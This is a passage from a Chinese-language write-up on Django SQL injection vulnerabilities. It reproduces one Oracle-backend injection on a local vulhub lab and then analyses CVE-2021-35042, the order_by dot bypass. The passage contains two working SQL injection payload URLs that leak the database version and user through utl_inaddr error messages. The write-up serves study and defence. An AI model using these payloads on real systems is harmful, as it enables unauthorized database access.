 ![](https://gitee.com/N0puple/picgo/raw/master/img/20220921211336.png)

### 漏洞复现

复现直接借助了 `vulhub` 的环境，直接启动，环境代码可以直接在最下面的参考链接中找到

第一处 `payload`

```
http://127.0.0.1:8000/vuln/q=?20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1-1
```

![](https://gitee.com/N0puple/picgo/raw/master/img/image-20220921212748553.png)

第二处 `payload`

```
http://127.0.0.1:8000/vuln2/q=?0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --
```

![](https://gitee.com/N0puple/picgo/raw/master/img/image-20220921212404303.png)



## 0x05 CVE-2021-35042

### 漏洞描述

`Django` 在2021年发布的安全更新，修复了在 `order_by ` 中存在的 `SQL` 注入漏洞。

### 漏洞影响

- Django 3.1.x < 3.1.13
- Django 3.2.x < 3.2.5

需要使用了 `order_by ` 

### 漏洞分析

出现问题的点是在 `order_by` ，先搜索这个方法

![](https://gitee.com/N0puple/picgo/raw/master/img/20220922105526.png)

首先 `clean_ordering` ，也就是将 `ordering` 置空

![](https://gitee.com/N0puple/picgo/raw/master/img/image-20220922105747504.png)

然后进行 `add_ordering`

![](https://gitee.com/N0puple/picgo/raw/master/img/20220922105840.png)

想要将传进来的字段添加到 `order_by` ，需要经过一些验证

将每一部分取出来进行比较，是字符串时进行比较，包含点号时，直接 `continue` ，跳过了后面的 `names_to_path` 验证，因此可以通过添加点号的形式绕过。
